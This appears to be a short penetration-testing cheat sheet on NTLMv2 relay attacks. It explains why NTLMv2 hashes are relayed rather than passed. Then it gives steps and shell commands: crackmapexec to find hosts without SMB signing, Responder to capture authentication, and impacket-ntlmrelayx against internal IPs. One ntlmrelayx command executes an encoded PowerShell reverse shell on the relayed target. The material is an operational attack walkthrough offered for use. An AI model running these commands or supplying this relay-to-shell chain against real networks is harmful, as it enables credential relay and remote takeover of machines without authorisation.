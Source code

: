 


Ntlmv2 has a challenge/response component to it, so each hash is unique and cannot be used in pass-the-hash.  
Ntlmv2 can however be used in relay, but you’ll have to set up a proper relay and capture it again. 

#### steps 
1) Use crackmapexec‘s genrelay flag to get a list of all hosts that **don’t enforce SMB signing** - it’ll output a targets list.

2) Run ntlmrelayx with the target file from above. You may wish to also run it with socks and smb2support flags.

3) Config responder to disable HTTP and SMB since ntlmrelayx will be running (if you did not use `--no-http-server` in ntlmrelayx)

4) run responder.


```shell
#  we need to set SMB to OFF in our responder configuration file (/etc/responder/Responder.conf).
cat /etc/responder/Responder.conf | grep 'SMB ='

responder -I <interface name>

impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146

impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <poweshell base64 reverse shell>'

```
